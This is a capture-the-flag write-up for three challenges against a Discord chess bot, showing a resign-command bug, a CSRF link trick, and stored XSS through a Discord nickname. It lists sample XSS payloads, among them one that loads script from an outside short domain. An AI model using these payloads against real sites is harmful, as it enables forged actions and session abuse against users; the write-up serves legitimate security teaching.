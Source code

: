 # Botgov I, II, III

**Category**: misc, web

**Author**: koks

## Description

Botgov is waiting for you on Discord. Can you beat him?

## Solution

<details>
 <summary>Botgov I</summary>

The goal is to beat Botgov in a game of chess on Discord.

This can be solved in several ways:

- Due to a bug, you can send a `!chess resign` command while Botgov is thinking. The game will resign whoever has the current turn.
- Mirror the moves on another board (e.g. lichess.org) against a chess engine smarter than Botgov (Stockfish 8).
- Train your chess skills until you become a Grandmaster and come back to beat Botgov fair and square.

</details>

<details>
 <summary>Botgov II</summary>

Resigning now can only happen via the big red button in the `/botgov-ii/{game-uuid}` page. When clicked it sends a `GET /botgov-ii/{game-uuid}/resign` request and you resign the game. This request is credentialled with your cookie.

Let's see if there's a way to trick Botgov into visiting `/botgov-ii/{game-uuid}/resign` (CSRF).

In the `!chess help` menu there's a `!chess cybersec [input]` command where we can send cyber security blog posts for Botgov to visit, and read. We can send him a very nice read located at `/botgov-ii/{game-uuid}/resign`, he visits it and he resigns from our game. We get the flag in a Discord message.

</details>

<details>
 <summary>Botgov III</summary>

Again, resigning can only happen via the big red button in the `/botgov-ii/{game-uuid}` page. But this time when clicked it sends a `POST /botgov-ii/{game-uuid}/resign` request and you resign the game. This request is credentialled with your cookie.

The previous CSRF trick will not work because now we have a POST request.

In the HTML there's a comment on how the person who built this page has poor HTML skills. This is an indication for an injection in the HTML (i.e. XSS)

We control 2 inputs:

1. Our Discord avatar. We control the image that's displayed but the URL is coming from Discord itself. No luck here.
2. Our Discord nickname OR username.

If we change our nickname to something like "/>" we will see it disappear from the page.

We can use this XSS to call the resign() function, and send a link to the page to Botgov via `!chess cybersec` like Botgov II. The XSS will trigger in his browser, it will send the POST request along with HIS cookie, he will resign the game and we'll get the flag!

Limitations of Discord nicknames:

- Maximum 32 characters
- Some special characters are not allowed
- If you change the Username instead of the Nickname, there's a 2 hour cooldown before being able to change it again.

Sample nickname payloads:

- \<img srx=x onerror=resign()/>
- \<body onload="resign()">\</body>
- \<script defer>resign()\</script>

Or if you control a very short domain, you can include arbitrary Javascript and execute whatever you want:

- \<script src=//{8 chars domain}>\</script>

</details>
